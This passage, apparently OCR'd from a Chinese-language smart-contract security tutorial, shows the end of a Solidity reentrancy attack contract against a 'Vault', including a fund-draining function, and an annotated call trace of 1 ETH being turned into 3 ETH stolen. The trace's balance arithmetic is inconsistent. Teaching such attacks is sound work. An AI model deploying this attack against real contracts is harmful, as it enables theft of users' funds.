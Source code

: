 ```solidity
        vault.deposit{value: ATTACK_AMOUNT}();

        // 2. 发起第一次提款，这将触发重入
        vault.withdraw(ATTACK_AMOUNT);
    }

    /// @notice 这是重入攻击的核心。当 Vault 发送以太币时，这个函数会被调用。
    receive() external payable { 
        // 检查 Vault 合约是否还有足够的钱可以偷
        // 如果 Vault 的总余额还够我们再取一次，就继续攻击
        if (address(vault).balance >= ATTACK_AMOUNT) {
            // 在 Vault 更新我们的余额记录之前，再次调用 withdraw
            vault.withdraw(ATTACK_AMOUNT);
        }
    }
    
    /// @notice 方便攻击者在攻击完成后，将盗取的资金取回
    function drainFunds() public {
        (bool success, ) = payable(msg.sender).call{value: address(this).balance}("");
        require(success, "Failed to drain funds");
    }
}
```

### 🔄 攻击流程详解

**调用栈分析**（假设 Vault 中已有 2 ETH，攻击者存入 1 ETH）：

```
初始状态：
├─ Vault.balance = 3 ETH
├─ balances[Attack] = 1 ETH
└─ Attack.balance = 0 ETH

执行流程：

1️⃣ Attack.attack() 
   └─> Vault.withdraw(1 ether) [第1次调用]
       ├─ require(balances[Attack] >= 1 ether) ✅ 
       ├─ msg.sender.call{value: 1 ether}
       │  └─> 触发 Attack.receive()
       │      ├─ address(vault).balance >= 1 ether? ✅ (2 ETH >= 1 ETH)
       │      └─> Vault.withdraw(1 ether) [第2次调用！重入！]
       │          ├─ require(balances[Attack] >= 1 ether) ✅ (余额还没更新！)
       │          ├─ msg.sender.call{value: 1 ether}
       │          │  └─> 触发 Attack.receive()
       │          │      ├─ address(vault).balance >= 1 ether? ✅ (1 ETH >= 1 ETH)
       │          │      └─> Vault.withdraw(1 ether) [第3次调用！]
       │          │          ├─ require(balances[Attack] > =1 ether) ✅
       │          │          ├─ msg.sender.call{value: 1 ether}
       │          │          │  └─> 触发 Attack.receive()
       │          │          │      └─ address(vault).balance >= 1 ether? ❌ (0 ETH < 1 ETH)
       │          │          │      └─ 停止重入
       │          │          └─ balances[Attack] = 3-1 
       │          └─ balances[Attack] = 2-1 
       └─ balances[Attack] = 1- 1 

结果：
├─ Vault.balance = 0 ETH（被掏空！）
├─ Attack.balance = 3 ETH（偷了3个ETH）
└─ 攻击成功！用1 ETH的余额，提取了3 ETH！
```
